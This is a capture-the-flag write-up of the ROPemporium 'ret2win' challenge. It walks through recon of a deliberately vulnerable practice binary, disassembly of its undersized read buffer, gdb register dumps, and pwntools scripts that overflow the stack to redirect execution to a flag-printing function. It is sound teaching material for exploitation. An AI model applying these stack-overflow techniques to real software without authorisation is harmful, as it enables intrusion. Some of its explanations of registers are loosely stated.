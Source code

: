 #+title: ROPemporium | ret2win
#+date: <2021-03-22 11:55>
#+filetags: ROPemporium overflow write-up exploitation

* Introduction
Welcome to this little write-up on the very first challenge from [[https://ropemporium.com][ROPemporium]].

ROPemporium is a platform for learning the mystic art of return-oriented programming(ROP).
This is accomplished by going through 8 challenges in total, with increasing diffyculty.

But before we begin this little eight-part adventure, let's take a closer look at what ROP is for a thing.

** Buffer overflows
I know that I just said i would explain ROP, but before we get into that.
Let us quickly brushup on what a buffer overflow is.

According to the very first paragraph on [[https://en.wikipedia.org/wiki/Buffer_overflow][wikipedia]]:
#+begin_quote
In information security and programming, a buffer overflow, or buffer overrun, is an anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
#+end_quote

So buffer overflows happens when it is possible to put more data into a variable thereby overwriting other memory adresses.

But why is this dangerous??

Because we can manipulate the content in the different registers.
And through this execute abitriary code.

Again this was a veeeery short overview, if you want to read more about buffer overflows, and I recommend that you do, here is a list of resources on the subject:
- [[https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/][Rapid7 - Stack-Based]] :: Explained with Examples
- [[https://0xrick.github.io/][0xrick]] :: Look at his basic binary series
- [[https://github.com/Tzaoh/pwning][Tzaoh's pwning list]] :: Huge list of resources on all kinds of exploitation
- [[https://pwn.college/][pwn.college]] :: A free and opensource exploitation course

Eventually I'll create a series focused just on buffer overflows, but for now you'll have to make do.

** Return Oriented Programming
Again we look towards Wikipedia for more knowledge.
The first paragraph on [[https://en.wikipedia.org/wiki/Return-oriented_programming][Wikipedia]]:
#+begin_quote
Return-oriented programming (ROP) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection and code signing.
#+end_quote

The basic principle for ROP is that we can control which function we return to when we land on a ~ret~ instruction.
There is also the topic of gadgets, but I'll explain that in the ~split~ write-up.

But how does one control which the software will return to?

That is exactly what this challenge is about.

* Recon
Before anything is done you should always to some reconnaissance on your target.
The more you know about the target, the easier it will be to model an attack towards it.
** File
The first thing you should do with any compiled binary that you want to pwn(professionel language for defeating security), is to run the ~file~ command on the the binary.
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
#+end_example
What this tells us is that the binary ~ret2win~ is a 64-bit ELF file.

It is not stripped, which means that if there is any debugging information in the code, we should be able to see it.
It also means symbols are left in so we can see function names.

** Checksec
After looking at what ~file~ gives outputs, the next nifty tool we should use is: ~checksec~.
It is a part of ~pwntools~, [[https://github.com/Gallopsled/pwntools][a CTF framework and exploit development library]], and can tell us about what kind of security measures that the binary is compiled with.
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>checksec ret2win
[*] '/home/c3lphie/hacking/binary_exploitation/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
#+end_example
Here we see that there is basically no security measures put in place... Which one would expect on the very first challenge.
But what is it that we see here?

- Arch :: This is the Architecture for which the binary was compiled for. In this case we see that it is ~amd64-64-little~ I'll break this down further in a minute.
- RELRO :: A security measure which makes some binary sections read-only. Partial RELRO means basically nothing for us. Full RELRO is a lot more secure, but I'll tackle this when I encounter it.
- Stack :: This tells us if there are any canaries compiled into the binary. Canaries are a security measure that protect from stack smashing attacks... Like what we're doing here. Not that they can't be handled
- NX :: A technology which splits the areas of memory up so that data can't be executed. This is the security measure we bypass using ROP
- PIE :: If this was enabled, the binary would have been loaded randomly into memory making it harder to exploit. But this is not something we need to worry about.

The architecture this binary was compiled for was ~amd64-64-little~, let's split this up into two.
~amd64-64~ means that it's for a 64 bit system.
~-little~ tells us that is for a little endian system.
Which you can read more about [[https://www.section.io/engineering-education/what-is-little-endian-and-big-endian/][here]].

** Reversing the binary
Now there are probably a ton of other tools that you could use to find other things about the binary.
But at this point I know enough about the target for now.

I have chosen [[https://binary.ninja/][Binary ninja]] for reverse engineering software.
But use what-ever you're most comfortable in, and if you don't have the economy to buy a piece of software, then there are opensource software available like [[https://cutter.re/][cutter]] or [[https://ghidra-sre.org/][ghidra]](if you're not afraid of the NSA ;)).
*** Main function
#+caption: main function disassembled 
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  mov     rax, qword [rel stdout]
  mov     ecx, 0x0
  mov     edx, 0x2
  mov     esi, 0x0
  mov     rdi, rax
  call    setvbuf
  mov     edi, 0x400808  {"ret2win by ROP Emporium"}
  call    puts
  mov     edi, 0x400820  {"x86_64\n"}
  call    puts
  mov     eax, 0x0
  call    pwnme
  mov     edi, 0x400828  {"\nExiting"}
  call    puts
  mov     eax, 0x0
  pop     rbp {__saved_rbp}
  retn     {__return_addr}
#+end_src
Here we see the main function disassembled, there isn't anything interesting to see.
What we want is the function pwnme, which is called on line 14.
So let's take a look at that instead shall we?
*** pwnme function
#+caption: pwnme function disassembled
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  sub     rsp, 0x20
  lea     rax, [rbp-0x20 {var_28}]
  mov     edx, 0x20
  mov     esi, 0x0
  mov     rdi, rax {var_28}
  call    memset
  mov     edi, 0x400838  {"For my first trick, I will attem…"}
  call    puts
  mov     edi, 0x400898  {"What could possibly go wrong?"}
  call    puts
  mov     edi, 0x4008b8  {"You there, may I have your input…"}
  call    puts
  mov     edi, 0x400918
  mov     eax, 0x0
  call    printf
  lea     rax, [rbp-0x20 {var_28}]
  mov     edx, 0x38
  mov     rsi, rax {var_28}
  mov     edi, 0x0
  call    read
  mov     edi, 0x40091b  {"Thank you!"}
  call    puts
  nop     
  leave    {__saved_rbp}
  retn     {__return_addr}
#+end_src

Since this is the function, which should be pwned, lets take a closer look using binary ninjas HLIL.
I know I shouldn't rely on it, but I'm still learning so yeah.
#+caption: pwnme function HLIL
#+begin_src c
  void var_28
  memset(&var_28, 0, 0x20)
  puts(str: "For my first trick, I will attem…")
  puts(str: "What could possibly go wrong?")
  puts(str: "You there, may I have your input…")
  printf(format: data_400918)
  read(fd: 0, buf: &var_28, nbytes: 0x38)
  return puts(str: "Thank you!")
#+end_src

Let's clean it up a bit for easier understanding:
#+caption: pwnme function HLIL with var names
#+begin_src c
  void buffer
  memset(&buffer, 0, 32)
  puts(str: "For my first trick, I will attem…")
  puts(str: "What could possibly go wrong?")
  puts(str: "You there, may I have your input…")
  printf(format: data_400918)
  read(fd: 0, buf: &buffer, nbytes: 56)
  return puts(str: "Thank you!")
#+end_src

As we can see we have a buffer with the size 32 bytes, but the read call accepts up to 56 bytes.
This means that we can overflow the buffer and control the stack.
But how should we control the stack?

Well if you look at the last two lines of the disassembly version of ~pwnme~
#+begin_src asm
  leave    {__saved_rbp}
  retn     {__return_addr}
#+end_src
If we somehow managed to overwrite ~__return_addr~ we potentially have the ability to make arbitrary code calls.

*** ret2win function
#+caption: ret2win function disassembled
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  mov     edi, 0x400926  {"Well done! Here's your flag:"}
  call    puts
  mov     edi, 0x400943  {"/bin/cat flag.txt"}
  call    system
  nop     
  pop     rbp {__saved_rbp}
  retn     {__return_addr}
#+end_src
This is the function we must aim the ~ret~ instruction towards in the ~pwnme~ function

And as we can see it just executes ~/bin/cat flag.txt~ on the system.

* Exploit
When writing the actual exploit I used 3 tools: ~emacs~, a ~terminal~ and ~gdb~.
The first one being my text editor ;), the second is pretty self explanatory and the last is Gnu Debugger.

** Overflowing the buffer
As I wrote earlier we need to do a bufferoverflow.
We know that from Binary Ninja that we have an input buffer that is 32 bytes long.
But the ~read~ function can read up to 56 bytes into the buffer.

So lets see what happen if we put a bunch of data into the buffer!
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault (core dumped)  ./ret2win
#+end_example
And we crashed!
But why?

If we try again, but run ~ret2win~ with ~gdb~ attached we can see what happens to the registers.
I have set a break point on the ~leave~ instruction just before the ~ret~ instruction.
And a couple of instructions before the ~read~ call.

If we look at the registers before ~read~.
#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x2
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00007fffffffe040  →  0x0000000000000000
$rbp   : 0x00007fffffffe060  →  0x00007fffffffe070  →  0x0000000000000000
$rsi   : 0x00007fffffffbf20  →  0x000000000000203e ("> "?)
$rdi   : 0x00007ffff7f8f4d0  →  0x0000000000000000
$rip   : 0x0000000000400733  →  <pwnme+75> lea rax, [rbp-0x20]
$r8    : 0x60
$r9    : 0x00007ffff7fdc070  →  <_dl_fini+0> endbr64
$r10   : 0x0000000000400918  →  0x6b6e61685400203e ("> "?)
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example
The two registers we are interested in are ~$rsp~ and ~$rbp~.

~$rsp~ is the stack pointer, it points to addresses in the stack where the buffer is stored.
~$rbp~ is the base pointer, it points to the memory address which is the "base" for the function.
When returning from a function, we will land where ~$rbp~ points to.

So lets crash this program!
#+begin_example
gef➤  run
Starting program: /home/c3lphie/hacking/binary_exploitation/ropemporium/ret2win/ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#+end_example
Here I just run it in GDB, and wrote a bunch of A's before hitting enter.
Don't mind the gef➤ prompt, that is just a gdb extension which makes exploit development easier.

Below you can see the content of the registers after the crash.
#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007ffff7ebb0f7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe040  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x00007fffffffe060  →  0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007ffff7f8d5a3  →  0xf8f4d0000000000a
$rdi   : 0x00007ffff7f8f4d0  →  0x0000000000000000
$rip   : 0x0000000000400754  →  <pwnme+108> leave
$r8    : 0xb
$r9    : 0x00007ffff7fdc070  →  <_dl_fini+0> endbr64
$r10   : 0xfffffffffffffb8b
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example
The hexadecimal value for A is 0x41 when ascii encoded.
And as you can see we managed to overwrite ~$rbp~, so now we just need to control ~$rbp~ to point to the ~ret2win~ function.

To do this we need to figure out how much data to insert before address.

*** Cyclic patterns
Using cyclic patterns, we can relatively easy find the padding length of our payload.

#+begin_src python 
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./ret2win")
  gdb.attach(proc, """
  b pwnme""")

  def send_recv(buffer: bytes):
      proc.recvuntil(b">")
      proc.sendline(buffer)
      return proc.recvline()

  payload = cyclic(56)

  send_recv(payload)
  proc.interactive()
#+end_src

Here I used the ~cyclic~ function, from pwntools, to generate a 56 character long [[https://en.wikipedia.org/wiki/De_Bruijn_sequence][de Bruijn sequence]].
Which we can use to find our padding length

The above script also attaches gdb, so we can find the pattern in the registers and use that in our exploit.
#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007fc84be920f7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007ffdaa836178  →  0x6161616c6161616b ("kaaalaaa"?)
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007fc84bf645a3  →  0xf664d0000000000a
$rdi   : 0x00007fc84bf664d0  →  0x0000000000000000
$rip   : 0x0000000000400755  →  <pwnme+109> ret
$r8    : 0xb
$r9    : 0x00007fc84bfad070  →  <_dl_fini+0> endbr64
$r10   : 0xfffffffffffffb8b
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example

And as you can see ~$rbp~ has some sort of weird string.
If we use the function ~cyclic_find~ in conjunction with ~cyclic~ we can find the padding for the exploit.

#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./ret2win")
  gdb.attach(proc, """
  b pwnme""")

  def send_recv(buffer: bytes):
      proc.recvuntil(b">")
      proc.sendline(buffer)
      return proc.recvline()

  payload = cyclic(cyclic_find(0x61616169))
  payload += p64(0xdeadbeefcafebabe)

  send_recv(payload)
  proc.interactive()
#+end_src
If we concentrate on the payload, we see that we first calculate our padding.
After that we add ~0xdeadbeecafebabe~ to ensure that we indeed do have control over ~$rbp~.

#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007fa3497a50f7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffb9d3f2d0  →  0x0000000000000000
$rbp   : 0xdeadbeefcafebabe
$rsi   : 0x00007fa3498775a3  →  0x8794d0000000000a
$rdi   : 0x00007fa3498794d0  →  0x0000000000000000
$rip   : 0x000000000040060a  →  <deregister_tm_clones+26> or eax, 0x1058bf5d
$r8    : 0xb
$r9    : 0x00007fa3498c0070  →  <_dl_fini+0> endbr64
$r10   : 0xfffffffffffffb8b
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example
And if I could point your attention to ~$rbp~, you should see that we have indeed control over the base pointer.

** Useful addresses
Since we already know which function we need to execute, and the binary doesn't have PIE enabled, I went ahead and grabbed the address from Binary Ninja.
|---------+----------|
| Name    |  Address |
|---------+----------|
| ret2win | 0x400756 |
|---------+----------|

** Final exploit
So know that we have control over the base pointer let's make it point towards ~ret2win~ and finish this challenge.
#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./ret2win")

  def send_recv(buffer: bytes):
      proc.recvuntil(b">")
      proc.sendline(buffer)
      return proc.recvline()


  ret2win_addr = 0x400756


  payload = cyclic(cyclic_find(0x6161616B))
  payload += p64(ret2win_addr)

  send_recv(payload)
  proc.interactive()
#+end_src
As you can see instead of ~0xdeadbeefcafebabe~ we just use ~ret2win_addr~.
And if we run the script:
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>python exploit.py
[+] Starting local process './ret2win': pid 170719
[*] Switching to interactive mode
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 170719)
[*] Got EOF while sending in interactive
#+end_example

* Conclusion
First of all thank you for reading my first proper write-up.
I hope it won't be the last, as I want to publish a new post/write-up/whatever-you-call-it every other week.

So what did we do here?
We got a /very/ basic introduction to buffer overflows and ROP, but hopefully enough to you hooked ;).
We successfully overflowed a buffer which let us control the return address of the function.

My next post will be about ROPemporium split, where we need to make use of so called ROPgadgets.



